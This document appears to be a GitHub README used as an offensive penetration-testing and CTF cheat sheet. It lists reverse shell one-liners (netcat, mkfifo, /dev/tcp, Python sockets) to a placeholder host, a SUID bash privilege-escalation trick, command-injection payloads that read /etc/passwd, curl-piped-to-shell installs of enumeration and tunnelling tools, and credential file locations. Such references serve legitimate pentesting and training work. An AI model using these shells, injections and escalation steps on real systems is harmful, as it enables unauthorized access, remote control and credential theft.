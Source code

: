 <picture>
    <source height="100px" srcset="https://user-images.githubusercontent.com/28403617/172728127-a6e102b5-225e-4c4f-9465-629b4d1452c9.svg#gh-dark-mode-only" media="(prefers-color-scheme: dark)">
    <img height="100px" src="https://user-images.githubusercontent.com/28403617/172728126-5dc238f3-9491-415b-a5f6-bedbb62d01cd.svg#gh-light-mode-only">
</picture>

---

- [Auto Script](#auto-script)
- [Command Injection](#command-injection)
- [Enumeration](#enumeration)
- [FTP](#ftp)
- [Gdbserver](#gdbserver)
- [Port Forwarding](#port-forwarding)
- [Privilege Escalation](#privilege-escalation)
- [Reverse Shell](#reverse-shell)
- [SCP](#scp)
- [Sudo](#sudo)

# Sudo
```bash
sudo -l
```

# Enumeration
## Script
### LinPeas
```bash
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
```

### Linux Smart Enumeration
```bash
curl "https://github.com/diego-treitos/linux-smart-enumeration/raw/master/lse.sh" -Lo lse.sh
chmod +x lse.sh
./lse.sh -l1
```

### Docker
```bash
curl -sL https://github.com/stealthcopter/deepce/raw/main/deepce.sh -O
```

## File
### Classic
- `/etc/passwd`  &  `/etc/shadow`
- `/www/html` ꞏ `/var/www` ꞏ `/srv/html` ꞏ `/usr/share/*`
- `/home/user/.ssh`
- `/etc/cron.d`
- `/opt/`
- `/usr/local/bin`

### Proc
`/proc/` contains useful information about the processes that are currently running

| directory	          | description                                     |
|---------------------|-------------------------------------------------|
| `/proc/PID/cmdline` | Command line arguments.                         |
| `/proc/PID/cwd`     | Link to the current working directory.          |
| `/proc/PID/environ` | Values of environment variables.                |
| `/proc/PID/exe`     | Link to the executable of this process.         |
| `/proc/PID/fd`      | Directory, which contains all file descriptors. |

### Command
```bash
find / -user user 2>&-
find / -group group 2>&-
find / -user root -executable -type f 2>&- | grep -v /bin/
```

```bash
/sbin/getcap -r *
```

# Reverse Shell
### Server
```bash
nc -lp 4444
```

### reSH
```bash
# Client
resh ip 4444
# Server
resh 4444
```
[Source](/scripts/resh.py)

### Netcat
```bash
nc ip 4444 -e /bin/bash
```

### Mkfifo
```bash
mkfifo /tmp/f;nc ip 4444 0</tmp/f|/bin/sh -i 2>&1|tee /tmp/f
```

### Dev 
```bash
bash -c 'bash -i >& /dev/tcp/ip/4444 0>&1'"
```

### Python
```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ip",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### TTY Support
```bash
bash -i
```

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

```bash
script -qc /bin/bash /dev/null
```

*[source](https://github.com/acole76/pentestmonkey-cheatsheets/blob/master/shells.md)*

# Privilege Escalation
```
/bin/cp /bin/bash /tmp/bash_up; /bin/chown user:group /tmp/bash_up; chmod g+s /tmp/bash_up; chmod u+s /tmp/bash_up
/tmp/bash_up -p
```

# SCP
### Download File
```
scp -P port user@192.168.1.ip:path .
```

### Upload File
```
scp -P port file user@192.168.1.ip:path
```

### Upload peda
```
scp -P 22 -r ~/.peda user@192.168.1.ip:/tmp/peda
```

# FTP
*Port: 21*

### Download all files
```
wget -m --user=user--password=fpassword ftp://10.10.11.160
```

# Gdbserver
*Port: 1337*
```
$ gdb
(gdb) target extended-remote ip:port
(gdb) remote get remote_file local_file
(gdb) remote put local_file remote_file
```


# Command Injection
```bash
;{cat,/etc/passwd}
;cat${IFS}/etc/passwd;
; cat /etc/passwd ;
$(cat /etc/passwd)
`cat /etc/passwd`
&& cat /etc/passwd &&
|| cat /etc/passwd ||
< <(cat /etc/passwd)
| cat /etc/passwd
"; cat /etc/passwd "
```
[GTFOBins - Bypass  local security restrictions](https://gtfobins.github.io/)


# Port Forwarding

### Chisel

```bash
# Install chisel
curl https://i.jpillora.com/chisel! | bash
```

```bash
# Example: 8000 -> 4444

# Attacker machine:
chisel server -p 4444 --reverse

# Victim machine:
chisel client ip-server:4444 R:8000:127.0.0.1:8000
```

### SSH
```sh
ssh -L 8080:127.0.0.1:8080 user@ip
```
